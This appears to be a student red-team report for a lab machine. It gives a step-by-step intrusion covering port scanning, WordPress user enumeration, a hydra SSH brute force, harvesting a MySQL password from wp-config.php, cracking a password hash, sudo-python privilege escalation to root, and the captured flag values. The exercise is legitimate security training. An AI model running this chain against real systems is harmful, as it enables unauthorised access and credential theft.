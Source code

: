 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.

        - `wpscan http://192.168.1.110/wordpress/ --enumerate u`
      
      ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      
        - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
      
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
        
        - `ssh michael@192.168.1.110`
      
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      
        - `cd /var/www/html/`
        - `cat service.html`
      
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      
        - `locate flag2.txt`
      
      ![locate flag2](./Images/locateFlag2.png)
      
        - `cd /var/www/`
        - `cat flag2.txt`
      
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      
        - `cd /var/www/html/wordpress/`
        - `cat wp-config.php`
      
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      
        - `mysql -u root -p'R@v3nSecurity'`
      
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      
        - `show databases;`
        - `use wordpress;`
      
      ![show databses and use wordpress](./Images/showDatabases.png)
      
        - `show tables;`
      
      ![show tables](./Images/showTables.png)
      
        - `select * from wp_posts` 
      
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      
        - `echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt`
        - `john wp_hashes.txt`
      
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      
        - `sudo -l`
      
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      
        - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
      
      ![privilege escalation](./Images/privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      
        - `locate flag4.txt`
      
      ![locate flag4](./Images/locateFlag4.png)
      
        - `cd /root/`
        - `cat flag4.txt`
      
      ![flag4](./Images/flag4.png)